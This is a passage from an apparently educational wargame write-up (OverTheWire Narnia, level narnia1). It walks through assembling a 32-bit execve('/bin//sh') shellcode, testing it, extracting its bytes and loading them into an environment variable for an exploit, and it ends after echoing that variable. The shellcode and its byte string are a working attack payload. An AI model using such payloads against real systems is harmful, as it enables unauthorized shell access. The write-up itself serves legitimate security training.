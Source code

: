 ```
    mov ecx, esi
    mov edx, esi
    xor eax, eax
    mov al, 0xb ; execve("/bin//sh", 0, 0)
    int 0x80 ; tap into kernel mode
```
Go ahead and paste it inside a file we will assemble using ```nasm```:
```
narnia1@narnia:/narnia$ vim /tmp/shellcode1.S
narnia1@narnia:/narnia$ nasm -f elf32 /tmp/shellcode1.S -o /tmp/shellcode1.o
narnia1@narnia:/narnia$ ld -m elf_i386 -o /tmp/shellcode1 /tmp/shellcode1.o
ld: warning: cannot find entry symbol _start; defaulting to 0000000008048060
```
Don't worry about that warning, it just tells us we should've used the label ```_start``` at the very beginning. Let's execute the shellcode and see if we get a shell!
```
narnia1@narnia:/narnia$ /tmp/shellcode1
$ ls
narnia0    narnia1.c  narnia3	 narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4	 narnia5.c  narnia7    narnia8.c
$ whoami
narnia1
$ exit
```
SUCCESS!!
Let's get out shellcode bytes:
```
narnia1@narnia:/narnia$ objdump -rd /tmp/shellcode1 -M intel

/tmp/shellcode1:     file format elf32-i386


Disassembly of section .text:

08048060 <__bss_start-0x1019>:
 8048060:	31 f6                	xor    esi,esi
 8048062:	56                   	push   esi
 8048063:	68 2f 2f 73 68       	push   0x68732f2f
 8048068:	68 2f 62 69 6e       	push   0x6e69622f
 804806d:	89 e3                	mov    ebx,esp
 804806f:	89 f1                	mov    ecx,esi
 8048071:	89 f2                	mov    edx,esi
 8048073:	31 c0                	xor    eax,eax
 8048075:	b0 0b                	mov    al,0xb
 8048077:	cd 80                	int    0x80
```
So, our shellcode will be:
```char shellcode[] = "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80"```

Alright! Now let's get that into our environment variable and pop the shell!
```
narnia1@narnia:/narnia$ export EGG=$(echo -en "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80")
narnia1@narnia:/narnia$ echo $EGG
1�Vh//shh/bin����1��
